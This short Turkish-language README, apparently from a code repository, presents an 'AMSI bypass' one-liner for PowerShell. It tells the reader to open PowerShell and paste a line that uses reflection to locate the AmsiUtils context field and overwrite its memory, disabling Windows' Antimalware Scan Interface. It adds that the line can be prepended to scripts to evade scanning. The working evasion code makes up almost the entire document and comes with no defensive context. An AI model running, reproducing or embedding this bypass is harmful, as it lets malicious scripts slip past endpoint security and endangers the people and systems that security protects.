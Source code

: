 # AMSI-BYPASS-ONELINER

Adım 1

Powershell i aç

Adım 2 

Konsola Aşağıdaki kodu yapıştır.

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

Ve artık bypass ettin. Powershell scriptlerinde bypass etmek için scriptin başına'da eklenebilir.
